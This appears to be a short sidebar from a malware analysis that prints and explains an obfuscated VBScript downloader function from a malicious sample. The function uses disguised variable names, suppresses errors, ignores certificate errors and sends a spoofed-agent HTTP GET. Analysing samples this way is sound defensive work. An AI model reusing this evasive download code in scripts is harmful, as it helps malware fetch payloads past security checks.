

# Sidebar #6 - wtf is DlAMe()? - Sends an HTTP GET
Function DlAMe(vertebrate)
    on error resume next
    Dim thrombosis: Set thrombosis = CreateObject("MSXML2.ServerXMLHTTP.6.0")
    thrombosis.setOption(2) = ((44 + 13108.0) - (988 - (4853 - 3961.0)))
    thrombosis.Open "GET", vertebrate, False
    thrombosis.setRequestHeader "User-Agent", "Mozilla/4.0"
    thrombosis.Send
End Function